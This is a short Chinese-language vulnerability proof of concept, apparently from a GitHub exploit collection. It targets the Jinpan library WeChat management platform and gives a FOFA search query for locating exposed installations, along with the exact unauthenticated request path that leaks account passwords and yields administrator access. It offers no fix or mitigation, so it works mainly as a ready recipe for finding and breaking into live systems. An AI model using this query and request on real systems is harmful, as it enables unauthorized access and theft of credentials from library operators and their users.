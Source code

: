 # 漏洞描述
金盘图书馆微信管理平台 getsysteminfo接口存在未授权访问漏洞，攻击者通过漏洞可以获取账号密码信息，获取后台管理员权限

# 影响版本
金盘移动图书馆管理系统 

# fofa查询语句
title="微信管理后台" && icon_hash="116323821"

# 漏洞复现
```shell
http://127.0.0.1/admin/weichatcfg/getsysteminfo
```

![image](https://github.com/xxxxfang/Vulnerabilities-EXP-POC/assets/86756456/54f56b50-7b07-40c7-84d1-327d092920d3)
